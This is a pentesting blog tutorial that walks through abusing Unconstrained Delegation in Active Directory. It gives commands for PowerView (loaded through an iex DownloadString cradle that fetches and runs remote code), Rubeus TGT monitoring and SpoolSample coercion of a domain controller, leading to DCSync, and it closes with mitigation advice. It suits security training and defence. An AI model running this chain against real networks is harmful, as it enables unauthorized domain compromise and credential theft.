






# Unleashing the Power of Unconstrained Delegation

## Introduction

In the world of Active Directory, a lot of attacks are based on delegation misconfigurations. Depending on the context, they may allow the attacker to laterally move across the network, achieve local / domain privilege escalation or even compromise the Domain Controller (DC).

In this blog we are diving into **Unconstrained Delegation**.

If you prefer watching a video instead of reading, you can find my video walkthrough on the topic here: [Attacking Active Directory: Unleashing the Power of Unconstrained Delegation (youtube.com)](https://www.youtube.com/watch?v=eDmkkL108W4)

Do not forget to join the Red Teaming Army's Discord server where we share knowledge, experience, and debug together in real time: [https://discord.gg/bgSpdheEgu](https://discord.gg/bgSpdheEgu)

!!!
Also, if you have further appreciation for my work you can become my Patreon: [Lsecqt | Creating Pentesting / Red Teaming Videos | Patreon](https://www.patreon.com/Lsecqt). This helps me a lot.
!!!

## Theory

### What is Delegation?

In a nutshell, **delegation** is the act of granting specific user / machine / service elevated rights towards other user / machine / service. Usually such privileges are granted on computers that run various services, like MSSQL / IIS or on users with bigger administrative needs.

To better understand it, let's take the following example: A user is authenticating and operating to IIS service which is connected to a MSSQL database. When the DB backend needs to be modified the IIS server connects to it on behalf of the user, thus, the IIS service or perhaps the whole machine could be entrusted for delegation.

Another example would be to entrust sysadmins or HelpDesk users to perform operational roles (create, manage and delete) for other domain users. In this case, specific tasks in the context of the Active Directory would be delegated to specific group of people.

### What is Unconstrained Delegation?

Normally, the delegations across the Active Directory should be strictly configured. It should explicitly map the delegated user / machine to the specific services and nothing more.

**Unconstrained Delegation** also known as Unrestricted Delegation is characterized with that it is NOT limited to specific service, but instead it impersonates the designed user / machine with all of its access rights and permissions across the AD context. Unrestricted Delegation is designed to save the delegated user's TGT directly into the computer's memory.

For instance, if we take the previous User -> ISS -> MSSQL example, if the same scenario was replicated with configured Unconstrained Delegation, the IIS service would obtain a valid TGT for the user connecting to it.

!!!
Any authentication towards Unconstrained Delegated machine, will effectively save the incoming user's TGT into the memory of the machine. This behavior also makes UD marked machines nice targets, since they may contain a lot of valid user's TGTs.
!!!

## Exploitation

### Enumeration

The easiest ways to enumerate Unconstrained Delegation are via:

- PowerView ([https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1))
- BloodHound ([https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound))

#### PowerView

PowerView is powerfull tool designed for Active Directory enumeration. It has built-in modules for analyzing delegation permissions across domain users and machine accounts.

To find Unconstrained Delegation entities, it is enough to:

1. Import it

`iex(new-object net.webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')`

2. Scan for Unconstrained Delegation:

`Get-DomainComputer -Unconstrained`

Finding machines marked for Unconstrained Delegation

The following output reveals 2 machines that have Unrestricted Delegation enabled. This means:

1. Any user connecting via any service on any of the mentioned machines will have his TGT saved inside the memory of the corresponding machine.
2. Since both of them are marked as Unrestricted Delegation, if you have access to one of them, you could most likely laterally move to any other machine if you can coerce its authentication.
!!!
Since the TGT is automatically saved to the targeted computer via any form of authentication, we can capture the TGT for the Domain Controller by performing authentication coercion.
!!!

#### BloodHound

It is also possible to find computer accounts marked for Unconstrained Delegation via BloodHound. I am not going to dive deep into how BloodHound operates, but in a nutshell:

When you import the collected data from the Active Directory into BloodHound, you can use the following option for finding accounts allowed for Unconstrained Delegation:

Finding machines marked for Unconstrained Delegation with BloodHound

!!!
By default, Unconstrained Delegation is assigned to machine accounts, but in some edged cases, you may enumerate the same delegation rights to be present on specific user accounts.
!!!

### Exploitation

As mentioned before, in its core, when machine is marked for Unconstrained Delegation, any user / machine authenticating to it, via any service, will result in its TGT stored on the authentication machine.

If we compromise a machine marked for UD, and if we somehow force authentication from other machines / users across the network, we could effectively compromise them.

!!!
Keep in mind that it is super common to encounter Unconstrained Delegation flag on Domain Controllers, since this is part of their operational work and they are by default trusted! Even if they are missing the flag, they can still be compromised if authentication coercion is possible and the compromised machine has the flag enabled!
!!!

For instance, in this example, we have already compromised `$Client01` machine and our target is `$DC01`.

While there are various ways of executing this attack, I prefer doing it with [Rubeus](https://github.com/GhostPack/Rubeus).

Rubeus has monitor mode support, which means it can effectively listen for incoming authentication and will automatically retrieve the TGT if it is stored!

Let's start Rubeus in monitor mode:

`.\Rubeus.exe monitor /interval:10 /filteruser:dc01$`

This command will also filter the results based on its originating account. In this case, to have a clean output, we are interested in the Domain Controller's machine account `DC01$`

!!!
Keep in mind that since our compromised machine `Client01$` is marked for Unconstrained Delegation, by not filtering the tickets account, you can get overwhelmed. Not filtering can be extremely useful in different scenarios, but now the target is `DC01$`
!!!

Starting Rubeus in monitor mode

The next step is to either wait for any form of authentication or force it! This may vary depending from your context and objectives, for example, phishing attacks for SMB path spoofing can be implemented, tricking users to connect to the Unconstrained machines.

In this example, we will perform coercion via [SpoolSample](https://github.com/leechristensen/SpoolSample) to trigger the authentication.

!!!
Coercion can be triggered via various tools such as [Coercer](https://github.com/p0dalirius/Coercer) or [Petitpotam](https://github.com/topotam/PetitPotam), do not limit yourself with anything specific! Different tools will work in different cases.
!!!

The syntax is fairly simple:

`.\SpoolSample.exe Target_Server Capture_Server`

Which will get translated to:

`.\SpoolSample.exe dc01 client01`

Triggering the authentication from the DC to our capture server via SpoolSample

Now if we go back and check the Rubeus process, we can observer that the TGT from the Domain Controller's machine account was successfully dumped and injected.

Capturing TGT from the Domain Controller's machine account

We can confirm that the ticket is injected by running:

`klist`

Confirming that the `dc01$` ticket is imported

Armed with the ticket we can compromise the Domain Controller or directly perform DCSync.

## Conclusion

Again we are faced against the calculation between scalability and security. Of course it is easier to just setup things to be relevant to all services, but this can come with huge risk. Let’s discuss how to mitigate it!

First of all is disabling `Print Spooler` service, especially if you do not need it! By disabling coercion you can reduce the risk and the chance for this attack. However, as mentioned before, this is not the only way of executing it, thus, by removing coercion misconfigurations, you can still get pwned!

!!!
Important note: `Print Spooler` is just one service / interface that can trigger authentication, there are many, many more ways to do coercion attacks. It is recommended to disable them all, unless you have practical use for them.
!!!

While this remediation technique is doing well, my most honest recommendation is to be careful when setting things up. Try to encapsulate as much as you can, this way you make the attacker’s job harder by adding hours and hours into researching in order to try more things.

Make sure to setup delegation permissions only for specific user / machine accounts and make sure they are pointing only to specific service, user or machine account. Avoid using Unrestricted Delegation, especially on machines that are not Domain Controllers.

Delegations are elegant way of optimizing the internal network mechanisms, but should be implemented with caution. Make sure to implement delegation for and to the exact assets that needs the delegation at the first place.

Hope you enjoyed and learned something new!